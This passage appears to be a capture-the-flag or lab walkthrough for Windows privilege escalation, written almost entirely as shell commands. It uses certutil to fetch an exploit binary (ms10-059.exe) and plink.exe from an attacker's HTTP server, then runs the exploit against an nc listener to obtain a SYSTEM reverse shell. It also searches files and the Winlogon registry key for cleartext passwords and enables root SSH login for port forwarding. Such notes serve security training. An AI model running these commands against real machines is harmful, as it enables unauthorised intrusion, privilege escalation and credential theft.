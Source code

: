```shell
cd C:\Windows\Temp

certutil -urlcache -f http://10.10.14.5:8000/ms10-059.exe ms.exe

#setup listener on attacker machine
nc -nvlp 5555

#in victim shell
ms.exe 10.10.14.5 5555

#we get reverse shell on port 5555 listener
whoami
#system
```

## Passwords and Port Forwarding

```shell
systeminfo

whoami

net users

net user alfred
#check groups

ipconfig

netstat -ano
#check open ports

arp -a

#hunting for cleartext passwords
findstr /si password *.txt

#search in registry
reg query HKLM /f password /t REG_SZ /s
#preferred method

reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

#attempt in case of password reuse
#we can use port forwarding method using plink.exe

#in attacker machine
python3 -m http.server

#in victim machine
cd C:\Users\alfred

certutil -urlcache -f http://10.10.14.2:8000/plink.exe plink.exe

#in attacker machine
#for plink config
sudo apt install ssh

sudo gedit /etc/ssh.sshd_config
#edit to enable permitrootlogin

sudo service ssh restart
sudo service ssh start
```
